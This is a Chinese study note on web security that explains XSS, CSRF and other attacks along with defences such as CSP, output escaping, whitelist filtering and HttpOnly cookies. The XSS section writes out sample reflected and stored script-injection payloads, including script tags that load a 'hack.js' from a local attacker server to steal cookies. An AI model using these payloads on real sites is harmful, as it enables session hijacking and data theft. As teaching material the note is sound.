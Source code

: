 ```yaml
---
title: 技术栈总结-安全
date: 2021-01-16
#sidebar: 'auto'
categories:
  - Summary
tags:
  - vue
#keys:
#  - 'vue'
#publish: true
---
```


## 安全

### XSSCross Site Scripting

跨站脚本攻击 XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:利用虚假输入表单骗取用户个人信息。利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。显示伪造的文章或图片。

XSS 攻击分类反射型

- url 参数直接注入

```js
// 普通
//localhost:3000/?from=china
// alert尝试
//localhost:3000/?from=<script>alert(3)</script>
http: // 获取Cookie
//localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
http: // 短域名伪造
//dwz.cn
http: // 伪造cookie入侵 chrome
https: document.cookie =
  'kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0='
```

- 存储型 - 存储到 DB 后读取时注入

```js
// 评论
<script>alert(1)</script>
// 跨站脚本注入我来了
<script src="http://localhost:4000/hack.js"></script>
```

#### XSS 攻击的危害 - Scripting 能干啥就能干啥

- 获取页面数据
- 获取 Cookies
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料偷
- 取用户的秘密和登录态
- 欺骗用户

#### 防范手段

- HEAD

```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截但伪装一下就不行了开课吧web全栈架构师
```

- CSP

> 内容安全策略 (CSP, Content Security Policy) 是一个附加的安全层，用于帮助检测和缓解某些类型的攻击，包括跨站脚本 (XSS) 和数据注入等攻击。这些攻击可用于实现从数据窃取到网站破坏或作为恶意软件分发版本等用途。CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

```js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
ctx.set('Content-Security-Policy', "default-src 'self'")
// 尝试一下外部资源不能加载
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
```

- 转移字符
- 黑名单

> 用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

- 白名单

> 富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式。

```js
const xss = require('xss')
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>')
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
console.log(html)
```

- HttpOnly Cookie
  > 这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

```js
response.addHeader('Set-Cookie', 'uid=112; Path=/; HttpOnly')
```

### CSRF

CSRF(Cross Site Request Forgery)

即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作

#### CSRF 攻击危害

- 利用用户登录态
- 用户不知情
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉

#### 防御

- 禁止第三方网站带 Cookie - 有兼容性问题
- Referer Check - Https 不发送 referer

```js
app.use(async (ctx, next) => {
  await next()
  const referer = ctx.request.header.referer
  console.log('Referer:', referer)
})
```

- 验证码

### 点击劫持 - clickjacking

### SQL 注入

### OS 命令注入

### 请求劫持

### DDOS

### 防御手段

- 备份网站
  备份网站不一定是全功能的，如果能做到全静态浏览，就能满足需求。最低限度应该可以显示公告，告诉用户，网站出了问题，正在全力抢修。
- HTTP 请求的拦截 高防 IP
- 靠谱的运营商 Docker 硬件服务器防火墙
- 带宽扩容 + CDN
  提高犯罪成本

